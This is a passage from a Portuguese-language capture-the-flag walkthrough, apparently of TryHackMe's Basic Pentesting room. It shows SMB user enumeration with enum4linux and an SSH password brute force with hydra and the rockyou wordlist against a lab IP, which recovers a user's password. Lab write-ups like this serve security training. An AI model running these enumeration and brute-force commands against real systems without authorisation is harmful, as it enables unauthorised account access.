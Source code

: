 ```shell
└─$ cat staff.txt                  
Announcement to staff:

PLEASE do not upload non-work-related items to this share. I know it's all in fun, but
this is how mistakes happen. (This means you too, Jan!)

-Kay
```
{: .nolineno }   
-K dos outros txt's é o Kay e o -J é o Jan, vamos tentar brute force com esse usuários via ssh.

Sem sucesso o brute force com hydra.

Rodando enum4linux consegui obter os usuários:  
> (rodando o comando enum4linux nao listou os usuários, porém rodando direto do diretório de localização dele funcionou)
{: .prompt-danger }

```shell
┌──(kali💀kali)-[~/thm/basicpentest]
└─$ /usr/share/enum4linux/enum4linux.pl -a 10.10.16.5 
```
{: .nolineno }
![Alt text](/assets/img/basicpentest3.png)
De volta pro hydra com os usuários certos  
`kay`  
`jan`  
- -F para ao encontrar uma senha correta
- -V verbose, mostra em tempo real o que está sendo testado
- -u alterna entre os usuários  para testar a mesma senha, em vez de testar toda wordlist em um só usuário, sendo mais eficiente assim.

```shell
┌──(kali💀kali)-[~/thm/basicpentest]
└─$ hydra -L users.txt -P /usr/share/wordlists/rockyou.txt 10.10.16.5 ssh -F -V -u
```
{: .nolineno }
Senha de jan:
![Alt text](/assets/img/basicpentest4.png)
